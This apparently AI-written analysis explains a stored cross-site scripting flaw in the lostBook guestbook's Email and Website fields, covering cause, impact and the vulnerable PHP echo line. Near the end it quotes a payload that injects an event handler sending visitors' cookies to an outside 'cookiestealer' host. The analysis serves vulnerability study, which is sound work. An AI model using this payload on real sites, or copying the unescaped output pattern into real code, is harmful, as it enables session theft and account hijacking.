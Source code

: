 Based on the provided content, here's a breakdown of the vulnerability:

**Root Cause of Vulnerability:**
- The `lostBook` guestbook application version 1.1 and lower does not properly sanitize user-supplied input in the "Email" and "Website" fields before displaying it in the guestbook.

**Weaknesses/Vulnerabilities Present:**
- Cross-Site Scripting (XSS): Although the report states that it is "Javascript Execution" instead of XSS due to the inability to inject arbitrary HTML, the core issue is still XSS, since Javascript can be injected via these fields.

**Impact of Exploitation:**
- An attacker can inject malicious JavaScript code into the guestbook. This can lead to various attacks, including:
    - Cookie Stealing: The provided example shows how an attacker can steal user cookies by injecting JavaScript that redirects the browser to a malicious site with the user's cookies appended to the URL.
    - Session Hijacking: By stealing cookies, an attacker can potentially gain access to a user's session.
    - Defacement: The injected JavaScript could modify the appearance of the website.
    - Redirect to Phishing Pages: Attackers can inject scripts to redirect users to phishing websites.
    - Keylogging: Malicious JavaScript can be injected to log user's keystrokes

**Attack Vectors:**
- The attack vector is through the "Email" and "Website" input fields of the guestbook.

**Required Attacker Capabilities/Position:**
- The attacker needs to be able to submit guestbook entries and fill the vulnerable fields with malicious javascript. No special privileges are needed for this.
- The attacker needs to know the vulnerability exists and know how to craft a malicious javascript payload.

**Additional Details:**
- The vulnerable code in `lostBook` parses the `website` data like this:
```php
if(isset($web) && $web != "" && $web != " ") echo ' <a href="'.$web.'"><img src="'.$path2files.'website.gif" border="0" alt="'.$web.'"></a>';
```
- The vulnerability is triggered because the `$web` variable is directly inserted into an HTML attribute without proper sanitization.
- An attacker can inject JavaScript event handlers such as `onload` or `onmouseover` into the `href` attribute, which can then be triggered by the user's browser, executing arbitrary JavaScript when the user views the guestbook entry.
- The attacker can inject the following code into the Email or Website fields:
`r3d5pik3.com" onload="document.location='<http://www.cookiestealer.com?cookie=>'+document.cookie`
or, if onload doesn't work, `onmouseover`.

The provided content details an XSS vulnerability.